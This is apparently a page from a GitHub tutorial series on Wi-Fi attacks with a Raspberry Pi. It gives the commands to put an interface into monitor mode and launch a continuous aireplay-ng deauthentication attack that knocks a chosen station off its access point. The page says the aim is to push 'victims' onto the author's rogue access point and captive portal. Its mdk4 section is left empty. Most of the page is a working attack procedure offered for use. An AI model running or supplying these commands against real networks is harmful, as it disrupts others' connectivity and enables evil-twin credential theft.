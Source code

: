 # WI-FI Jamming with Raspberry PI

If you have read the previous tutorial [Wi-Fi Analysis](../WIFIAnalysis), you know your Wi-Fi environment around your location. Now you can immediately create an [Simple Access Point](../AccessPoint) and wait until the first victims come by themselves. You can also do this process a little faster -> The IEEE 802.11 (_Wi-Fi_) protocol contains the provision for a deauthentication frames.

## Objective

The aim of this tutorial is to speed-up the process that stations will connect to your access point.

## Precondition

You should already have read (_and successful carried out_) the following tutorials.

- [Setup Raspberry PI](../Setup)
- [Prepare Raspberry PI](../Preparation)
- [Wi-Fi Analysis](../WIFIAnalysis)

## Install needed and/or optional packages

Install (_or ensure they are installed_) following packages.

```shell
# update system (optional)
$ sudo apt update -y && sudo apt upgrade -y

# install optional packages (optional)
$ sudo apt install -y vim wireless-tools

# install needed packages
$ sudo apt install -y aircrack-ng mdk4
```

## Attention

> In this tutorial we need the `wlan1` interface in the so-called monitor mode. You cannot use the `wlan0` interface from the Raspberry PI for this.

If you have already set up an [Access Point](../AccessPoint) and/or a [Captive portal](../CaptivePortal), you should stop them now!

```shell
# stop nodogsplash service
$ sudo systemctl stop nodogsplash

# stop hostapd service
$ sudo systemctl stop hostapd

# stop dnsmasq service
$ sudo systemctl stop dnsmasq
```

## Monitor Mode

The Wi-Fi interface (_wlan1_) must be set into "monitor mode".

```shell
# set interface down
$ sudo ip link set wlan1 down

# turn interface into monitor mode
$ sudo iwconfig wlan1 mode monitor

# set interface up
$ sudo ip link set wlan1 up
```

## aireplay-ng (Aircrack-ng)

The Aircrack-ng suite includes many tools to assess Wi-Fi networks. Here we focus on `aireplay-ng` only. 

```shell
# show help (optional)
$ aireplay-ng --help

# start deauthentication attack
$ sudo aireplay-ng -0 0 -a 50:C7:BF:DC:4C:E8 -c E0:B5:2D:EA:18:A7 wlan1
```

- `-0` means deauthentication mode
- `0` means send continuously deauthentication frames (_otherwise you can set a specific number_)
- `-a [mac address]` means MAC address of the access point
- `-c [mac address] means MAC address of the station
- `wlan1` means the interface`(_in monitor mode_)

## mdk4

...

```shell
#
$

#
$
```

[Go Back](../readme.md)
